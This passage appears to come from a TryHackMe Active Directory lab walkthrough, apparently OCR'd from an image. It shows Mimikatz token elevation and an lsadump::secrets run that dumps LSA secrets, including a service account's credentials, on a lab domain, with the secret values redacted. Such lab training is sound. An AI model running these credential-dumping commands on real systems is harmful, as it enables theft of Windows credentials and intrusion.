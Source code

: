 If you were  to perform proper post-exploitation enumeration of THMWRK1, you would  find that there is a service on the host running as the svcIIS user.  Since we have administrative access now, we can use this to dump  LSASecrets, part of the Windows Registry Hive where credentials are  stored for features such as Windows services. Let's use [Mimikatz](https://github.com/gentilkiwi/mimikatz/security) to dump the secrets:

- **Command Prompt**

```powershell
C:\> C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM


mimikatz # lsadump::secrets
Domain : THMWRK1
SysKey : redacted

Local name : THMWRK1 ( S-1-5-21-3226461851-763325627-4205969673 )
Domain name : ZA ( S-1-5-21-3885271727-2693558621-2658995185 )
Domain FQDN : za.tryhackme.loc

Policy subsystem is : 1.18
LSA Key(s) : 1, default {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27}
  [00] {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27} 929bd1cdc726d31f5eea6fa5266a09521afd0be6309a08fd604c9a95c2af4463

Secret  : $MACHINE.ACC
cur/text: redacted
    NTLM:redacted
    SHA1:redacted
old/text: redacted
    NTLM:redacted
    SHA1:redacted

Secret  : DefaultPassword
cur/text: redacted
old/text: redacted

Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: redacted

mimikatz #
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami